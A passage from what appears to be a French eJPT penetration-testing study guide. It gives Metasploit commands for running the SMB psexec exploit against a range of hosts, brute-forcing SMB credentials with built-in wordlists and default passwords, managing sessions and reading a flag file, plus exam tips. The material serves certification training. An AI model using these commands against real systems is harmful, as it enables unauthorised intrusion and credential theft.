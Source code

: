 ```bash
cd /
dir
type flag.txt
```

### Scénario 3: Multiples cibles PsExec
```bash
# Pour plusieurs cibles
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.100-110
set SMBUser Administrator
set SMBPass found_password
set LHOST your_kali_ip
exploit

# Gestion multiples sessions
sessions -l
sessions -i 1
```

---

## 💡 9. Conseils et astuces eJPT

### Points critiques PsExec eJPT
- ✅ **Brute force SMB** toujours en premier
- ✅ **Wordlists MSF** intégrées très efficaces
- ✅ **VERBOSE false** pour éviter spam
- ✅ **Privileges SYSTEM** automatiques
- ✅ **Shell command** pour navigation simple

### Erreurs courantes à éviter
- ❌ **Oublier brute force** avant PsExec
- ❌ **VERBOSE true** → Output trop verbeux
- ❌ **Mauvais LHOST** → Session échoue
- ❌ **Ne pas tester** credentials trouvés
- ❌ **Ignorer autres users** trouvés

### Optimisations eJPT
```bash
# Configuration rapide brute force
set BLANK_PASSWORDS true
set USER_AS_PASS true
set STOP_ON_SUCCESS true
set THREADS 16

# Test rapide credentials courants
set SMBUser Administrator
set SMBPass admin
check                                 # Test avant exploit
```
